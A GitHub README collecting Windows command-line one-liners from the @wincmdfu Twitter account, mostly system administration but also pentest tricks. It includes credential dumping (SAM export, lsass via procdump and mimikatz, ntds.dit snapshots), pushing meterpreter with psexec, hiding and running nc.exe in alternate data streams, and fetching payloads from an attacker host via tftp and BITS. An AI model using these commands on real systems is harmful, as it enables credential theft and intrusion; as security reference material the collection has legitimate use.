

# Windows CLI gems. Tweets of [@wincmdfu](https://www.twitter.com/wincmdfu)

Windows one line commands that make life easier, shortcuts and command line fu.

---

## Table of Contents

- [Get entires from IPv4 neighbor cache](#get-entires-from-ipv4-neighbor-cache)
- [Get available wireless networks via cmd and netsh](#get-available-wireless-networks-via-cmd-and-netsh)
- [Quick list IP addresses only](#quick-list-ip-addresses-only)
- [List ALL services AND their binaries](#list-all-services-and-their-binaries)
- [Export SAM from the Windows Registry to a file](#export-sam-from-the-windows-registry-to-a-file)
- [Enable remote desktop using reg](#enable-remote-desktop-using-reg)
- [Enable the boot log to see list of drivers loaded during startup](#enable-the-boot-log-to-see-list-of-drivers-loaded-during-startup)
- [Powershell cmdlet to create System Restore Point](#powershell-cmdlet-to-create-system-restore-point)
- [Check the current account for seDebugPrivilege](#check-the-current-account-for-sedebugprivilege)
- [Enable/disable system users via command line](#enabledisable-system-users-via-command-line)
- [View process that is consuming the most memory using powershell](#view-process-that-is-consuming-the-most-memory-using-powershell)
- [Create an Alternate Data Stream from a file on an NTFS partition](#create-an-alternate-data-stream-from-a-file-on-an-ntfs-partition)
- [Export running processes in CSV format](#export-running-processes-in-csv-format)
- [Lock Windows desktop using command line](#lock-windows-desktop-using-command-line)
- [Start explorer with a file or folder selected/highlighted](#start-explorer-with-a-file-or-folder-selectedhighlighted)
- [Dump VirtualBox image containing RAM and ELF headers](#dump-virtualbox-image-containing-ram-and-elf-headers)
- [Set Time Zone of the system clock](#set-time-zone-of-the-system-clock)
- [Make folder inside a guest from the host](#make-folder-inside-a-guest-from-the-host)
- [Force copy meterpreter binary to remote machines & run as system](#force-copy-meterpreter-binary-to-remote-machines--run-as-system)
- [Create n/w share called `Apps`, with read access & limit to 10 conns](#create-nw-share-called-apps-with-read-access--limit-to-10-conns)
- [List all the drives under My Computer using fsutil](#list-all-the-drives-under-my-computer-using-fsutil)
- [Troubleshoot n/w packet drops with router statistics using pathping](#troubleshoot-nw-packet-drops-with-router-statistics-using-pathping)
- [List unsigned dlls for a specific process. For system wide list](#list-unsigned-dlls-for-a-specific-process)
- [Obtain a list of Windows XP computers on the domain using PS](#obtain-a-list-of-windows-xp-computers-on-the-domain-using-ps)
- [Open the System Properties window, with the `Advanced` tab selected](#open-the-system-properties-window-with-the-advanced-tab-selected)
- [Using the `dir` command to find Alternate Data Streams](#using-the-dir-command-to-find-alternate-data-streams)
- [Use `procdump` to obtain the `lsass` process memory](#use-procdump-to-obtain-the-lsass-process-memory)
- [Run `mimikatz` in `minidump` mode & use `mini.dmp` from `procdump`](#run-mimikatz-in-minidump-mode--use-minidmp-from-procdump)
- [Get list of startup programs using wmic](#get-list-of-startup-programs-using-wmic)
- [Add a binary to an Alternate Data Stream](#add-a-binary-to-an-alternate-data-stream)
- [Execute a binary Alternate Data Stream Win 7/2008 using wmic](#execute-a-binary-alternate-data-stream-win-72008-using-wmic)
- [Show config & state info for Network Access Protection enabled client](#show-config--state-info-for-network-access-protection-enabled-client)
- [Get computer system information, including domain name and memory, using wmic](#get-computer-system-information-including-domain-name-and-memory-using-wmic)
- [Use the Package Manager in Windows to install the Telnet client on Windows Vista & higher](#use-the-package-manager-in-windows-to-install-the-telnet-client-on-windows-vista--higher)
- [Secure delete a file/folder in Windows](#secure-delete-a-filefolder-in-windows)
- [Show all startup entries while hiding Microsoft entries. CSV output](#show-all-startup-entries-while-hiding-microsoft-entries-csv-output)
- [Download files via commandline using PS](#download-files-via-commandline-using-ps)
- [Fetch the last 10 entries from the Windows Security event log, in text format](#fetch-the-last-10-entries-from-the-windows-security-event-log-in-text-format)
- [Create a dll that runs calc on invoke](#create-a-dll-that-runs-calc-on-invoke)
- [Run a command as another user](#run-a-command-as-another-user)
- [Get shutdown/reboot events from the last 1000 log entries using PS](#get-shutdownreboot-events-from-the-last-1000-log-entries-using-ps)
- [Create a new snapshot of the volume that has the AD database and log files](#create-a-new-snapshot-of-the-volume-that-has-the-ad-database-and-log-files)
- [Mount the snapshot](#mount-the-snapshot)
- [Run a process on a remote system using wmic](#run-a-process-on-a-remote-system-using-wmic)
- [List the machines, with usernames, that were connected via RDP](#list-the-machines-with-usernames-that-were-connected-via-rdp)
- [List all process that are running on your system by remote users connected via RDP](#list-all-process-that-are-running-on-your-system-by-remote-users-connected-via-rdp)
- [Reset the Windows TCP\IP stack](#reset-the-windows-tcpip-stack)
- [List logged on users](#list-logged-on-users)
- [Set a static IP on a remote box](#set-a-static-ip-on-a-remote-box)
- [Bypass powershell execution policy restrictions](#bypass-powershell-execution-policy-restrictions)
- [List running processes every second on a remote box](#list-running-processes-every-second-on-a-remote-box)
- [Get a list of running processes and their command line arguments on a remote system](#get-a-list-of-running-processes-and-their-command-line-arguments-on-a-remote-system)
- [Remotely enable and start the Volume Shadow Copy Service](#remotely-enable-and-start-the-volume-shadow-copy-service)
- [Ping multiple IPs from `ips.txt` & see live hosts](#ping-multiple-ips-from-ipstxt--see-live-hosts)
- [Set global proxy in Windows to point to IE proxy](#set-global-proxy-in-windows-to-point-to-ie-proxy)
- [Enumerate list of drivers with complete path information](#enumerate-list-of-drivers-with-complete-path-information)
- [View Group Policy Objects that have been applied to a system](#view-group-policy-objects-that-have-been-applied-to-a-system)
- [Reset the WMI repository to what it was when the OS was installed](#reset-the-wmi-repository-to-what-it-was-when-the-os-was-installed)
- [Create symbolic links in Windows Vista, 7 & higher](#create-symbolic-links-in-windows-vista-7--higher)
- [Enable the tftp client in Vista & higher](#enable-the-tftp-client-in-vista--higher)
- [Obtain list of firewall rules on a local system](#obtain-list-of-firewall-rules-on-a-local-system)
- [Get name of current domain controller](#get-name-of-current-domain-controller)
- [Look at content cached in kernel mode on IIS 7 and higher](#look-at-content-cached-in-kernel-mode-on-iis-7-and-higher)
- [Quick test to check `MS15_034`](#quick-test-to-check-ms15_034)
- [Get a list of all open Named pipes via Powershell](#get-a-list-of-all-open-named-pipes-via-powershell)
- [Possible `VENOM` detection on VirtualBox](#possible-venom-detection-on-virtualbox)
- [List RDP sessions on local or remote in list format](#list-rdp-sessions-on-local-or-remote-in-list-format)
- [Get a list of service packs & hotfixes using wmic for remote systems listed in file](#get-a-list-of-service-packs--hotfixes-using-wmic-for-remote-systems-listed-in-file)
- [Export wireless connection profiles](#export-wireless-connection-profiles)
- [Unzip using PowerShell](#unzip-using-powershell)
- [Open the Network & Sharing center](#open-the-network--sharing-center)
- [Remotely stop/start ftp on several systems](#remotely-stopstart-ftp-on-several-systems)
- [To quickly find large files using cmd](#to-quickly-find-large-files-using-cmd)
- [Print RDP connections](#print-rdp-connections)
- [List scheduled tasks & binaries](#list-scheduled-tasks--binaries)
- [Display the "Stored User names and Passwords" window](#display-the-stored-user-names-and-passwords-window)
- [List namespaces & classes in WMI via PowerShell](#list-namespaces--classes-in-wmi-via-powershell)
- [Convert Between VDI, VMDK, VHD, RAW disk images using VirtualBox](#convert-between-vdi-vmdk-vhd-raw-disk-images-using-virtualbox)
- [Change file extensions recurseively](#change-file-extensions-recurseively)
- [List IPs of running VirtualBox machines](#list-ips-of-running-virtualbox-machines)
- [Windows Privilege Escalation](#windows-privilege-escalation)
- [Enumerate packages with their oem inf filenames](#enumerate-packages-with-their-oem-inf-filenames)
- [Install a driver package using inf file](install-a-driver-package-using-inf-file)

### Get entires from IPv4 neighbor cache


```
C:\>netsh interface ipv4 show neighbors
```

### Get available wireless networks via cmd and netsh

```
C:\>netsh wlan show networks mode=b
```

### Quick list IP addresses only


Save the following in `ip.bat` in `%PATH%`

```
C:\>ipconfig | find /I "pv"
```
Call `ip` from CLI


### List ALL services AND their binaries

```
for /F "tokens=2* delims= " %i in ('sc query ^| find /I "ce_name"') do @sc qc %i %j
```

### Export SAM from the Windows Registry to a file

```
C:\>reg save HKLM\SAM C:\Windows\Temp\SAM
```

### Enable remote desktop using reg

```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

### Enable the boot log to see list of drivers loaded during startup

```
bcdedit /set bootlog yes
```
Read via `%windir%\ntbtlog.txt`

### Powershell cmdlet to create System Restore Point

```
PS C:\>Checkpoint-Computer -description "Restore point!"
```

### Check the current account for seDebugPrivilege

```
C:\> whoami /priv | findstr "Debug"
```
For all privs:

```
C:\> whoami /priv
```

### Enable/disable system users via command line

```
C:\>net user test /active:yes (no)
```

Get full help on the net user command:

```
C:\>net help user
```

### View process that is consuming the most memory using powershell

```
PS C:\> (Get-Process | Sort-Object -Descending WS)[0]
```

### Create an Alternate Data Stream from a file on an NTFS partition

```
C:\>type data.txt > C:\windows\explorer.exe:newads.txt
```

### Export running processes in CSV format

```
C:\> tasklist /FO CSV > tasks.txt
```

### Lock Windows desktop using command line

```
C:\> rundll32 user32.dll,LockWorkStation
```

### Start explorer with a file or folder selected/highlighted

```
C:\> explorer /select,C:\MyData\sample.docx
```

### Dump VirtualBox image containing RAM and ELF headers

```
C:\>vboxmanage debugvm "WinXPLab1" dumpguestcore --filename winxplab1.elf
```

### Set Time Zone of the system clock

```
C:\> tzutil /s "Eastern Standard Time"
```
List available Time zones:

```
C:\> tzutil /l
```

### Make folder inside a guest from the host

**VirtualBox**

```
C:\> vboxmanage guestcontrol "WinXP" md "C:\\test" --username "user" --password "pass"
```

### Force copy meterpreter binary to remote machines & run as system

```
C:\> psexec @$ips.txt -s -u adminuser -p pass -f -c \exploits\mp.exe
```

### Create n/w share called `Apps`, with read access & limit to 10 conns

```
C:\> net share Apps=C:\Apps /G:everyone,READ /US:10
```

### List all the drives under My Computer using fsutil

```
C:\> fsutil.exe fsinfo drives
```

### Troubleshoot n/w packet drops with router statistics using pathping

```
C:\> pathping -n http://www.google.com
```

### List unsigned dlls for a specific process. 

**For system wide list, remove the process name**

```
C:\> listdlls -u explorer.exe
```

### Obtain a list of Windows XP computers on the domain using PS

**Server2008**

```
PS C:\> Get-ADComputer -filter {OperatingSystem -like "*XP*"}
```

### Open the System Properties window, with the `Advanced` tab selected

**Change the number for different tabs**

```
C:\> control sysdm.cpl,,3
```

### Using the `dir` command to find Alternate Data Streams

```
C:\> dir /R | find ":$D"
```
Using streams `sysinternals` (shows path):

```
C:\> streams -s .
```

### Use `procdump` to obtain the `lsass` process memory. 

**Use `mimikatz` `minidump` to get passwords**

```
C:\> procdump -accepteula -ma lsass.exe mini.dmp
```

### Run `mimikatz` in `minidump` mode & use `mini.dmp` from `procdump`

```
mimikatz # sekurlsa::minidump mini.dmp
mimikatz # sekurlsa::logonPasswords
```	

### Get list of startup programs using wmic

```
C:\> wmic startup list full
```

### Add a binary to an Alternate Data Stream

```
C:\> type c:\tools\nc.exe > c:\nice.png:nc.exe
```
Execute it (XP/2K3):

```
C:\> start c:\nice.png:nc.exe
```

### Execute a binary Alternate Data Stream Win 7/2008 using wmic

```
C:\> wmic process call create C:\nice.png:nc.exe
```

### Show config & state info for Network Access Protection enabled client

https://technet.microsoft.com/en-us/library/cc730902(v=ws.10).aspx

```
C:\> netsh nap client show configuration
```

### Get computer system information, including domain name and memory, using wmic

```
C:\> wmic computersystem list /format:csv
```

### Use the Package Manager in Windows to install the Telnet client on Windows Vista & higher

```
C:\> pkgmgr /iu:"TelnetClient"
```

### Secure delete a file/folder in Windows

**Sysinternals**

```
C:\> sdelete -p 10 a.txt
```

To recursively delete folders:

```
C:\> sdelete -10 -r C:\data\
```

### Show all startup entries while hiding Microsoft entries. CSV output

**It covers more locations than Windows inbuilt tools**

```
C:\> autorunsc -m -c
```

### Download files via commandline using PS

```
PS C:\> ipmo BitsTransfer;Start-BitsTransfer -Source http://foo/nc.exe -Destination C:\Windows\Temp\
```

### Fetch the last 10 entries from the Windows Security event log, in text format

```
C:\> wevtutil qe Security /c:10 /f:Text
```
**def is XML**

### Create a dll that runs calc on invoke

```
msfpayload windows/exec cmd=calc.exe R | msfencode -t dll -o rcalc.dll

C:\> rundll32.exe rcalc.dll,1
```

### Run a command as another user

**You will be prompted for password**

```
C:\> runas /noprofile /user:domain\username "mmc wf.msc"
```
### Get shutdown/reboot events from the last 1000 log entries using PS

```
Get-EventLog -log system -n 1000 | Where {$_.eventid -eq '1074'} | fl -pr *
```

### Create a new snapshot of the volume that has the AD database and log files

```
C:\> ntdsutil sn "ac i ntds" create quit quit
```
### Mount the snapshot

**Copy ntds.dit from snapshot & System hive from reg for pwd hashes**

```
C:\> ntdsutil snapshot "list all" "mount 1" quit quit
```

### Run a process on a remote system using wmic

```
C:\> wmic /node:ip process call create "net user dum dum /add"
```

### List the machines, with usernames, that were connected via RDP

```
C:\> reg query "HKCU\Software\Microsoft\Terminal Server Client\Servers" /s
```

### List all process that are running on your system by remote users connected via RDP

```
C:\> query process *
```

### Reset the Windows TCP\IP stack

```
netsh int ip reset c:\tcpresetlog.txt
```

### List logged on users. 

**Very useful during a pentest to look for domain admins**

```
C:\> net session | find "\\"
```

### Set a static IP on a remote box

```
C:\> wmic /node:remotebox nicconfig where Index=1 call EnableStatic ("192.168.1.4"), ("255.255.255.0")
```

### Bypass powershell execution policy restrictions

```
PS C:\> powershell -ExecutionPolicy Bypass -Noninteractive -File .\lastboot.ps1
```

### List running processes every second on a remote box

```
C:\> wmic /node:target process list brief /every:1
```
**Remove `/node:target` for localhost**

### Get a list of running processes and their command line arguments on a remote system

```
C:\> wmic /node:target process get commandline, name
```

### Remotely enable and start the Volume Shadow Copy Service

```
C:\> sc \\target config vss start= auto
C:\> sc \\target start vss
```
### Ping multiple IPs from `ips.txt` & see live hosts

```
C:\>for /F %i in (ips.txt) do ping -n 1 %i | find "bytes="
```

### Set global proxy in Windows to point to IE proxy

```
C:\> netsh winhttp import proxy source=ie
```

### Enumerate list of drivers with complete path information

```
C:\> driverquery /FO list /v
```

### View Group Policy Objects that have been applied to a system
**Very useful during pentests**

```
C:\> gpresult /z /h outputfile.html
```

### Reset the WMI repository to what it was when the OS was installed

**Very helpful if you have a corrupt repo**

```
C:\> winmgmt /resetrepository
```

### Create symbolic links in Windows Vista, 7 & higher

```
C:\> mklink <link> <target>
C:\> mklink D:\newlink.txt E:\thisexists.txt
```
### Enable the tftp client in Vista & higher

```
C:\> ocsetup TFTP /quiet
```
Pull files to a `compromised server`:

```
C:\> tftp -i attacksrv get bin.exe
```

### Obtain list of firewall rules on a local system

```
C:\> netsh advfi fi sh rule name=all
```
**Can be combined with wmic for remote systems**

### Get name of current domain controller

```
C:\> set log
C:\> nltest /dcname:DOMAIN
```

Get list of all DCs:

```
C:\> nltest /dclist:DOMAIN
```
### Look at content cached in kernel mode on IIS 7 and higher

```
C:\> netsh http sh ca
```
**Useful when investigating the `MS15-034` HTTP.sys vuln**

### Quick test to check `MS15_034`

```
C:\> curl -v -H "Range: bytes=234234-28768768" "http://host/a.png" -o a.png
```
**HTTP 416 = Vulnerable**

**HTTP 20X = Not vulnerable**

### Get a list of all open Named pipes via Powershell

```
PS C:\> [http://System.IO.Directory ]::GetFiles("\\.\\pipe\\")
```
### Possible `VENOM` detection on VirtualBox

```
C:\> vboxmanage list -l vms > a.txt
```
**Search 'Storage' & 'Floppy'**

### List RDP sessions on local or remote in list format

```
PS C:\> qwinsta /server: | foreach {($_.trim() -replace "\s+",",")} | ConvertFrom-Csv
```

### Get a list of service packs & hotfixes using wmic for remote systems listed in file

```
C:\> wmic /node:@file /output:out.txt qfe list full
```

### Export wireless connection profiles

```
C:\> netsh wlan export profile
```
**`key=clear` allows plain text passwords**

### Unzip using PowerShell

```
PS C:\> Add-Type -A System.IO.Compression.FileSystem;[IO.Compression.ZipFile]::ExtractToDirectory(src,dst)
```
### Open the Network & Sharing center

```
control.exe /name Microsoft.NetworkandSharingCenter
```
**Create a shortcut of this as `ns` in `PATH` for ease**

### Remotely stop/start ftp on several systems

```
C:\> wmic /node:@ips.txt /user:u /password:p process call create "net <start> msftpsvc"
```

### To quickly find large files using cmd

```
C:\> forfiles /s /c "cmd /c if @fsize gtr 100000 echo @path @fsize bytes"
```
**Run from the dir you want**

### Print RDP connections

```
for /f "delims=" %i in ('reg query "HKCU\Software\Microsoft\Terminal Server Client\Servers"') do reg query "%i"
```
### List scheduled tasks & binaries

```
C:\> schtasks /query /fo LIST /v
```
**Weak permissions can be exploited for `localprivilege escalation`**

### Display the "Stored User names and Passwords" window

```
C:\> rundll32 keymgr.dll,KRShowKeyMgr
```
### List namespaces & classes in WMI via PowerShell

```
PS C:\> gwmi -n root -cl __Namespace | Select name

PS C:\> gwmi -n root\cimv2 -li
```

### Convert Between VDI, VMDK, VHD, RAW disk images using VirtualBox

```
C:\> vboxmanage clonehd myvdi.vdi myvmdk.vmdk --format VMDK
```

### Change file extensions recurseively 

**csv to xls for eg**

```
C:\Projects> forfiles /S /M *.csv /C "cmd /c ren @file @fname.xls"
```

### List IPs of running VirtualBox machines

```
for /F %i in ('VBoxManage list runningvms') do VBoxManage guestproperty enumerate %i | find "IP"
```

### Windows Privilege Escalation

[](http://www.slideshare.net/riyazwalikar/windows-privilege-escalation)

### Enumerate packages with their oem inf filenames

```
C:\> pnputil -e
```

### Install a driver package using inf file

```
C:\> pnputil -i -a path_to_inf
```

---
## Contribution

Please read the [contribution guidelines](CONTRIBUTING.md) if you want to contribute.

